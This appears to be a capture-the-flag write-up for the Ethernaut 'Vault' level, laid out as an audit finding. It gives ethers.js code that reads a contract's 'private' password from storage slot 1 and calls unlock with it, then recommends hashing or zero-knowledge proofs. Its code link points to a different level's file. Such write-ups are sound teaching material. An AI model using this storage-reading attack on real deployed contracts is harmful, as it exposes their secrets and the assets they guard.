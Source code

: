 #### Unlock the vault to pass the level!

## Summary
The `Vault` contract is locked by a `bytes32 private password`. However, in Solidity, `private` variables are not actually private and can be read by anyone on the blockchain. Therefore, opening attack vectors.

```solidity
contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }
}
```

## Vulnerability Detail
An attacker could easily view the actual `password` which is supposed to be a secret. Then, they can unlock the Vault.

Attack scenario:
1. Attacker uses `ethers` to find the actual `password` value:
```javascript
const provider = new ethers.providers.InfuraProvider('NETWORK_NAME', 'INFURA_PROJECT_ID');
// Get the value of storage slot 1 (the password variable)
let password = await provider.getStorageAt(contract.address, 1);
```
3. The attacker now has the password value. They call the `unlock` function of the contract:
```javascript
await contract.locked(); // true (before `unlock`)
await contract.unlock(password);
await contract.locked(); // false (the attacker just unlocked the contract)
```

## Impact
High. An attacker can unlock the `Vault` and do whatever they want to with it.

## Code Snippet
https://github.com/danielvichinyan/ethernaut-solutions/blob/main/force/Force.sol#L4-L10

## Tools Used
Remix IDE, Manual Review

## Recommendation
Avoid storing sensitive variables just by themselves. 
Use hashing or zero-knowledge proofs.
